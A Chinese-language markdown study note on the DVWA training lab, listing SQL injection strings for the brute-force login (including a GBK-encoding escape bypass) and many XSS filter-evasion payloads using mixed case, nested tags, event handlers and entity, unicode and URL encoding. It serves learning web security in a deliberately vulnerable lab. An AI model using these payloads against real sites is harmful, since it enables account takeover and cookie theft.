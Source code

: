 # dvwa

## bruteforce

### level：low  
<b>1.注入方式：</b>
-   源码：query  = "SELECT * FROM \`users\` WHERE user = '\$user' AND password = '\$pass';"   
-    admin' #  &emsp;或者	&emsp;admin' -- a   &emsp;或者&emsp; a' or '1' = '1' limit 1 #

### level:medium

<b>1.暴力破解 </b> 
-   burpsuit intruder
-   MySQL5.5.37以下版本如果设置编码为GBK，能够构造编码绕过mysql_real_escape_string 对单引号的转义

##  xss

1.  窃取cookie
2.  劫持流量恶意跳转
3.  xss的利用和绕过  
     -  大小写绕过
         -  这个绕过方式的出现是因为网站仅仅只过滤了`<script>`标签，而没有考虑标签中的大小写并不影响浏览器的解释所致。具体的方式就像这样：`<sCript>alert("hey!")</scRipt>`
    -  利用过滤后返回语句再次构成攻击语句来绕过
        -  `<sCri<script>pt>alert("hey!")</scRi</script>pt>`
    -  并不是只有script标签才可以插入代码
        -  `<img src='w.123' onerror='alert("hey!")'>`
        -  `<a onmousemove=alert(1)> `
        -  `<div onmouseover=‘do something here’> `
    -  编码脚本代码绕过关键字过滤
        -  `<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>`
    -   主动闭合标签实现注入代码
    -   html实体编码
        -   `<iframe src=javascript:alert(1)>`
        -   `<iframe src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>`
    -   URL编码
        -   `<iframe src=”javascript:alert(1)”>test</iframe>`
        -   `<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>`
        -   Javascript解析器工作的时候将`\u0061\u006c\u0065\u0072\u0074`进行js解码后为”`alert`”，但是需要注意像圆括号、双引号、单引号不能编码，否则在这种场景下无法弹窗。
4.  xss编码详情
    -   <a href="xss.md">编码相关</a>
---
### 1.  反射型xss

- ####   level:medium
  -   要闭合 `<option><select>`标签

- ####   level:high
    - URL的部分发往服务器时#号后面的并不会发送到服务器，但是javascript代码还会正常读取，所以利用这个特性来绕过服务器端的检查。
